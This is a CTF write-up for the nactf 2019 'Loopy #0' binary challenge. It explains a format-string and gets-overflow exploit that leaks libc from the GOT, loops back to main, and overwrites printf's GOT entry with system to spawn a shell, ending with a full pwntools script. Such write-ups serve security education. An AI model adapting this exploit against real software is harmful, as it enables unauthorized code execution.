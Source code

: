 +++
title = "nactf 2019 - Loopy #0"
date = 2019-09-22T20:39:04.285Z
updated = 2020-12-27
aliases = ["/posts/5d87dbe86e58ed23d8620868-nactf-2019-loopy-0-1"]
[taxonomies]
tags = ['nactf2019', 'binary-exploitation', 'pwntools', 'format-string', 'return-oriented-programming']
categories = ["ctf-writeups"]
+++

# Challenge

> This program is quite short, but has got `printf` and `gets` in it! This shouldn't be too hard, right?
>
> Connect at `nc shell.2019.nactf.com 31283`

We are given the libc used, the binary, and the source code.

```cpp
#include <stdio.h>

void vuln()
{
	char buf[64];
	fputs("Type something>", stdout);
	gets(buf);
	fputs("You typed: ", stdout);
	printf(buf);
}

int main()
{
	/* Disable buffering on stdout */
	setvbuf(stdout, NULL, _IONBF, 0);

	vuln();

	return 0;
}
```

<!-- more -->

# Solution

Because there is no win function like in the previous challenges, this requires us to call `system('/bin/sh')`. To do 
this, we need to leak the base address that `libc` is loaded at, and then add the offset to `system` before jumping to it.

## Leaking libc

To leak `libc`, we can use the format string vulnerability to read from the GOT. By trial and error, we see that the 
stack offset to `buf` with `printf` is 4: 

![](5d87da366e58ed23d8620866.png)

So, we can use `%4$s` to read the fourth value on the stack as a string. Since we control this value, we can read 
arbitrary addresses.

To read the value of `puts` in the GOT (address is `0x804c010`), we can do the following:
```python
payload1 = p32(0x804c010) + "%4$s"
```
This will give us the value that is stored at `0x804c010` which is the address of puts in memory. From this, we can 
calculate the address of `system`:
```python
GETS_ADDR = u32(r.recvn(4))
LIBC_BASE = GETS_ADDR - libc.symbols['gets']
SYSTEM_ADDR = LIBC_BASE + libc.symbols['system']
```

## Looping
However, we still need `printf` to overwrite a GOT entry. To keep looping, we can overflow `buf` and overwrite the 
return pointer:

``` python
payload1 = p32(0x804c010) + "%4$s"
payload2 = p32(elf.symbols['main'])*4
payload = payload1.ljust(64) + payload2
```

## Overwriting a GOT Entry
I chose to overwrite the GOT entry of `printf` because it is passed `buf` as its only argument. To do this, we can use 
the `%hn` format string to overwrite 2 bytes at a time:
```python
GOT_PRINTF = elf.got['printf']
GOT_PRINTF_LO = GOT_PRINTF
GOT_PRINTF_HI = GOT_PRINTF + 0x2

SYSTEM_ADDR_HI = SYSTEM_ADDR >> 16
SYSTEM_ADDR_LO = SYSTEM_ADDR - (SYSTEM_ADDR_HI << 16)

print("PRINTF GOT: " + hex(GOT_PRINTF))
print("SYSTEM_LO: " + hex(SYSTEM_ADDR_LO))
print("SYSTEM_HI: " + hex(SYSTEM_ADDR_HI))

p2 = SYSTEM_ADDR_LO
p1 = SYSTEM_ADDR_HI - p2

print(p1)
print(p2)

pad1 = "%" + str(p1) + "x"
pad2 = "%" + str(p2) + "x"

payload1 = pad2 + "%21$hn" + pad1 + "%20$hn;sh"
payload = payload1.ljust(64) + p32(GOT_PRINTF_HI) +  p32(GOT_PRINTF_LO) + payload2
r.sendline(payload)
```
# Full Script
```python
from pwn import *

elf = ELF('./loopy-0')
libc = ELF('./libc')
r = remote('shell.2019.nactf.com', 31283)

r.recvuntil('>')

payload1 = p32(0x804c010) + "%4$s"
payload2 = p32(elf.symbols['main'])*4
payload = payload1.ljust(64) + payload2

r.sendline(payload)
r.recvuntil(': ')
r.recvn(4)

GETS_ADDR = u32(r.recvn(4))
LIBC_BASE = GETS_ADDR - libc.symbols['gets']
SYSTEM_ADDR = LIBC_BASE + libc.symbols['system']
print("GETS: " + hex(GETS_ADDR))
print("LIBC: " + hex(LIBC_BASE))
print("SYSTEM: " + hex(SYSTEM_ADDR))

GOT_PRINTF = elf.got['printf']
GOT_PRINTF_LO = GOT_PRINTF
GOT_PRINTF_HI = GOT_PRINTF + 0x2

SYSTEM_ADDR_HI = SYSTEM_ADDR >> 16
SYSTEM_ADDR_LO = SYSTEM_ADDR - (SYSTEM_ADDR_HI << 16)

print("PRINTF GOT: " + hex(GOT_PRINTF))
print("SYSTEM_LO: " + hex(SYSTEM_ADDR_LO))
print("SYSTEM_HI: " + hex(SYSTEM_ADDR_HI))

p2 = SYSTEM_ADDR_LO
p1 = SYSTEM_ADDR_HI - p2

print(p1)
print(p2)

pad1 = "%" + str(p1) + "x"
pad2 = "%" + str(p2) + "x"

payload1 = pad2 + "%21$hn" + pad1 + "%20$hn;sh"
payload = payload1.ljust(64) + p32(GOT_PRINTF_HI) +  p32(GOT_PRINTF_LO) + payload2
r.sendline(payload)

r.interactive()
```
